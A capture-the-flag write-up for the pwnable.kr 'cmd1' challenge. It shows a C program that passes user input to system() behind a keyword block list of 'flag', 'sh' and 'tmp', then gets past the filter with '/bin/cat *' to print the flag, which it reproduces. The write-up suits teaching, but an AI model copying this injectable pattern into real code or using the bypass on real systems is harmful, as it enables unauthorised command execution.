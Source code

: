 # cmd1

## Description

cmd1 - 1 pt

> Mommy! what is PATH environment in Linux? <br> <br>
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Environment variables

An environment variable is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice. They are part of the environment in which a process runs. Environment variables are a universal mechanism for conveying configuration information to Unix programs. 

#### PATH environment variable

The `PATH` environment variable is a list of directories that the shell searches for executable files. The path environment variable is used to find the executable file that is to be executed when a command is entered. 

### Exploit

When connecting to the server, we first check who are we:

```bash
$ id
uid=1025(cmd1) gid=1025(cmd1) groups=1025(cmd1)
```

Then, we check the avialable files:

```bash
$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
```

Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The program first sets the `PATH` environment variable to `/thankyouverymuch`. Then, it executes the command that is passed as an argument. However, the program checks if the command contains `flag`, `sh`, or `tmp` and if it does, it returns.

Our goal is to print the flag. However, since the `PATH` environment variable was changed, we can't just call `cat` to print the flag - the shell will not be able to find the executable files. However, we can still use the `cat` command by using the absolute path to the executable file. 

Now that we can use the `cat` commnad, we need to figure out how to print the flag. We can't just `bin/cat flag` because the program checks if the command contains `flag`. However, we can use the `cat` command to print *everything* inside the current directory:

```bash
$ /bin/cat *
```

Giving this command as an argument to the program will print the flag:

```bash
$ ./cmd1 "/bin/cat *"
...
mommy now I get what PATH environment is for :)
```